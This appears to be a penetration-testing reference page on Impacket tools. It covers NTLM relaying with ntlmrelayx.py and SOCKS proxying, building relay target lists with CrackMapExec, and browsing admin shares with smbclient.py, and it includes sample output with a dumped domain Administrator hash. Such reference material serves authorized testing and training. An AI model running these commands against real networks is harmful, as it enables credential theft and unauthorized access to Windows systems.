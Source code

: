 By default NTLMrelayx.py relays to the client who sends the hash, dumping SAM. It's recommended to use `-socks` so if authentication was succesful a socks connection is set up. This way you can use tooling thru for example ProxyChains.

```plain
$ sudo ntlmrelayx.py -smb2support -socks
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation
[...SNIP...]
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Connection from offsec/ADMINISTRATOR@10.10.10.11 controlled, attacking target smb://10.10.10.10
[*] Connecting to 10.10.10.10 NETLOGON service
[*] SMB Auth OK, successfully
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
```

To use NTLMrelayx.py with a list of targets you want to relay to, first generate a list with [CrackMapExec]({{< ref "crackmapexec" >}}) by using the command below.

```plain
crackmapexec smb 192.168.10.0/24 --gen-relay-list targetlist
```

Then you can use the `-tf` flag with NTLMrelayx.py to use the targetlist created as input file.

#### SOCKS

As described it is recommended to use `-socks` so if authentication was succesful a socks connection is set up. This way you can use tooling thru for example ProxyChains.

```plain
ntlmrelayx> socks
Protocol    Target          Username            AdminStatus     Port
--------    ------          --------            -----------     ----
SMB         10.10.10.1      OFFSEC/JOHNDO       TRUE            445
SMB         10.10.10.2      OFFSEC/JOHNDO       FALSE           445
```

### SMBClient - SMB client implementation

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="smbclient.mp4"/%}}

```plain
smbclient.py offsec.nl/administrator:Welkom1234@10.10.10.10

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# use C$
# ls
drw-rw-rw-          0  Tue Mar 17 16:11:19 2020 $Recycle.Bin
-rw-rw-rw-     389332  Tue Mar 17 01:27:24 2020 bootmgr
-rw-rw-rw-          1  Tue Mar 17 01:27:24 2020 BOOTNXT
drw-rw-rw-          0  Mon Mar 16 16:32:03 2020 Documents and Settings
-rw-rw-rw- 1073741824  Wed Mar 18 08:56:25 2020 pagefile.sys
drw-rw-rw-          0  Mon Mar 16 17:53:03 2020 PerfLogs
drw-rw-rw-          0  Tue Mar 17 01:30:24 2020 Program Files
drw-rw-rw-          0  Tue Mar 17 01:30:24 2020 Program Files (x86)
drw-rw-rw-          0  Tue Mar 17 16:14:16 2020 ProgramData
drw-rw-rw-          0  Mon Mar 16 16:32:05 2020 Recovery
```